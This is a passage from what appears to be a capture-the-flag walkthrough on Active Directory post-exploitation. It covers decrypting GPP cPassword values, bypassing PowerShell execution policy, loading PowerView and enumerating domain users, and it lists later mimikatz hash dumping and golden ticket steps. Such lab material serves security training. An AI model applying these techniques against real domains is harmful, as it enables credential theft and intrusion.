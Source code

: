A cPassword attribute in the GPP XML files, for example, can be decrypted with `gpp-decrypt`.
And chances are the password will be reused somewhere.

## Post exploitation basics

![Bloodhound](../../_static/images/bloodhound.png)

1. Enumeration with Powerview
2. Enumeration with Bloodhound
3. Dumping hashes with mimikatz
4. Golden ticket attacks with mimikatz
5. Maintaining Access

### Enumeration with Powerview

ssh into machine:

    ssh Administrator@<MACHINE-IP>
    Administrator@<MACHINE-IP>'s password: 

    Microsoft Windows [Version 10.0.17763.737]

Start Powershell: `-ep` bypasses the execution policy of powershell

    controller\administrator@DOMAIN-CONTROLL C:\Users\Administrator>powershell -ep bypass
    Windows PowerShell
    Copyright (C) Microsoft Corporation. All rights reserved.

Start PowerView:

    PS C:\Users\Administrator> . .\Downloads\PowerView.ps1
    PS C:\Users\Administrator> cd .\Downloads

Enumerate the domain users:

    PS C:\Users\Administrator\Downloads> Get-NetUser | select cn
    
    --
    Administrator
    Guest
    krbtgt
    Machine-1
    Admin2
    SQL Service
    POST{P0W3RV13W_FTW}
    sshd
